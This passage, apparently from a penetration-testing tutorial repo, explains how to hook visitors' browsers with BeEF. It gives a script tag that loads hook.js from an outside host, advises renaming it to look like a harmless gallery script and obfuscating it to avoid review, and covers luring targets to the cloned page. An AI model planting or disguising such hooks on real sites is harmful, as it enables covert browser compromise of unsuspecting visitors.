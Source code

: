 A good place to insert this code is at the start of the `<head></head>` section.

![beef5](/images/59.png)

The line of code is:

```html
<script src="http://gaqzirkalewu.astro-backyard.space:3000/hook.js"></script>
```

>[!NOTE]
>In this example we are using a gibberish subdomain `gaqzirkalewu` for the domain earlier purchased `astro-backyard.space` so nobody inadvertently gets hooked

The `hook.js` file contains malicious javascript which hooks the victim browser to beef.

In its default form, the line of code is suspicious, so we can obfuscate it by renaming it and placing it into a directory on our cloud based web server. It is normal for javascript files to be placed into a directory called `/scripts` so this is where we place our malicious hook script - `/scripts/gallery.js` instead of `hook.js`

![beef6](/images/77.png)

This should mask the intention of the file to a casual observer of the source code - most people never look at it anyway - but to avoid more thorough examination if we suspect our page will be subject to it we can use javascript obfuscation techniques. I have detailed some simple ones in my repo about [javascript deobfuscation](https://github.com/puzz00/deobfuscation/blob/main/deobfuscation.md#basic-obfuscation)

We now need to socially engineer our target to visit the malicious webpage.

>[!NOTE]
>I will not go into detail about cloning the webpage and setting up a domain name for it as we covered this earlier in this repo

The beauty of this technique is that the target only needs to go to the malicious page in order for their browser to get hooked into beef - the webpage does not need to be a login page - it could be anything - a blog, a picture gallery, a shopping site etc.
